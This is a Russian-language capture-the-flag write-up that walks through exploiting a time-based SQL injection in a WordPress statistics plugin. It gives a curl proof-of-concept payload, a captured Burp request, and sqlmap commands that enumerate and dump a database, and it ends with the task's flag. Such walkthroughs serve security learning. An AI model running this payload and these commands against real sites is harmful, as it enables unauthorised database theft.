

# pentesters routine

В описании таска только `http://15.188.8.126`. Наличие протокола намекает, что нам не надо агресивно тыкать порты и нам хватит стандартного веба.

Переходим по ссылке и встречаем *очередной сайт на wordpress*.


Сразу же запускаем `wp-scan` :


В результате получаем информацию о наличии двух уязвимостей в плагине статистик.


Начнем с time-based инъекции так как оназанимает долго времени. Изучив ссылки предложенные сканером находим PoC уязвимого запроса.
```bash
curl -X POST 'http://host/wp-json/wpstatistics/v1/hit' --data "wp_statistics_hit=x&wp_statistics_hit[track_all]=1&wp_statistics_hit[page_uri]=x&wp_statistics_hit[search_query]=x\' UNION ALL SELECT SLEEP(5)-- x
```
Эксплуатировать руками такую инъекцию никто конечно же не будет. Подготовим все что нужно для `sqlmap`. Продублируем этот запрос в `burp suite`(я предпочел убрать нагрузку из PoC чтобы никто не сошел с ума) и отправим в файл.

```
POST /wp-json/wpstatistics/v1/hit HTTP/1.1
Host: 15.188.8.126
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 114

wp_statistics_hit=x&wp_statistics_hit[track_all]=1&wp_statistics_hit[page_uri]=x&wp_statistics_hit[search_query]=x
``` 

Wordpress использует Mysql, нам известны техника и уязвимый параметр. Команда для `sqlmap` получается примерно такой:

` python2 sqlmap.py -r request.txt -p "wp_statistics_hit[search_query]" --technique=T --level=5 --risk=3 --dbms=mysql --dbs ` 

Убеждаемся в наличии уязвимости и получаем имена бд.




Разработчики таска не стали мучить нас многочасовым ожиданием и первая же таблица в базе `wordpress` - имеет говорящее название `flag`.

`python2 sqlmap.py -r request.txt -p "wp_statistics_hit[search_query]" --technique=T --level=5 --risk=3 --dbms=mysql -D wordpress --tables`


Достаем флаг:

`python2 sqlmap.py -r request.txt -p "wp_statistics_hit[search_query]" --technique=T --level=5 --risk=3 --dbms=mysql -D wordpress -T flag --dump`


**Вот и наш флаг:** `MCTF{w0rdpr355_53curity_4h4h}`        


